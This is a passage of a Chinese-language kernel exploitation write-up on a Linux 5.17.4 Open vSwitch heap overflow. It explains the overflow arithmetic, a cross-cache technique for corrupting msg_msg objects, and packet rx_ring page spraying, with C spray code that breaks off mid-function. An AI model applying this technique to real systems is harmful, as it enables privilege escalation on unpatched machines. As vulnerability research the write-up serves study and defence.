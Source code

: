 假设内部嵌套的 nlattr type 为 `OVS_KEY_ATTR_ETHERNET` （对应结构为 [ovs_key_ethernet](https://elixir.bootlin.com/linux/v5.17.4/source/include/uapi/linux/openvswitch.h#L405)），需通过 `[c]` 处对 key_len 的校验，也即 [key_len = sizeof(struct ovs_key_ethernet) == 0x0C](https://elixir.bootlin.com/linux/v5.17.4/source/net/openvswitch/flow_netlink.c#L412) 。

`[e]` 处 `len = 2*key_len == 0x18`，最后添加的action长度为原长的两倍。算上添加这个 nlattr 所需的两层 header（嵌套），即需要使用`0x04 + 0x04 + 0x0C == 0x14`字节的内存就让最前面提出的buffer的指针前进`0x04 + 0x04 + 0x0C * 2 == 0x20`字节。虽然放大比例不如`sizeof(struct ovs_conntrack_info)`，但好在其在能用来溢出的前提下，保证了更优的稳定性（无需根据内核版本来计算结构体的大小）。

最终还是在 [copy_action()](https://elixir.bootlin.com/linux/v5.17.4/source/net/openvswitch/flow_netlink.c#L3112) 中的 `[3]` 处产生溢出，也即第2次拷贝剩余的 `nlattr` 时。

```c
[OVS_KEY_ATTR_ETHERNET]	 = { .len = sizeof(struct ovs_key_ethernet) },

#define ETH_ALEN	6		/* Octets in one ethernet addr	 */
struct ovs_key_ethernet {
	__u8	 eth_src[ETH_ALEN];
	__u8	 eth_dst[ETH_ALEN];
};
```



## 2. 漏洞利用

**利用思路**：需要构造 cross cache 溢出篡改 `msg_msg`，从 `kmalloc-0x10000` 上的漏洞对象溢出篡改位于 `kmalloc-0x1000` 上的 `msg_msg`。

### 2-1. 页喷射

**页喷射**：页喷射知识请参考 [CVE-2022-27666](https://paper.seebug.org/1889/)。采用 `rx_ring` buffer 对象进行堆喷，调用路径为 [packet_setsockopt()](https://elixir.bootlin.com/linux/v5.17.4/source/net/packet/af_packet.c#L3792) -> [packet_set_ring()](https://elixir.bootlin.com/linux/v5.17.4/source/net/packet/af_packet.c#L4416) -> [alloc_pg_vec()](https://elixir.bootlin.com/linux/v5.17.4/source/net/packet/af_packet.c#L4331) -> [alloc_one_pg_vec_page()](https://elixir.bootlin.com/linux/v5.17.4/source/net/packet/af_packet.c#L4295)。分配页的 order 由 [tpacket_req->tp_block_size](https://elixir.bootlin.com/linux/v5.17.4/source/include/uapi/linux/if_packet.h#L272) 决定。喷射代码示例如下所示：

```c
#include <linux/if_packet.h>
#include <sys/socket.h>
#include <net/if.h>
#include <net/ethernet.h>

void packet_socket_rx_ring_init(int s, unsigned int block_size,
                                unsigned int frame_size, unsigned int block_nr,
                                unsigned int sizeof_priv, unsigned int timeout) {
    int v = TPACKET_V3;
    int rv = setsockopt(s, SOL_PACKET, PACKET_VERSION, &v, sizeof(v));
    if (rv < 0) {
        die("setsockopt(PACKET_VERSION): %m");
    }

    struct tpacket_req3 req;
    memset(&req, 0, sizeof(req));
    req.tp_block_size = block_size;
    req.tp_frame_size = frame_size;
    req.tp_block_nr = block_nr;
    req.tp_frame_nr = (block_size * block_nr) / frame_size;
    req.tp_retire_blk_tov = timeout;
    req.tp_sizeof_priv = sizeof_priv;
    req.tp_feature_req_word = 0;

    rv = setsockopt(s, SOL_PACKET, PACKET_RX_RING, &req, sizeof(req));
    if (rv < 0) {
        die("setsockopt(PACKET_RX_RING): %m");
```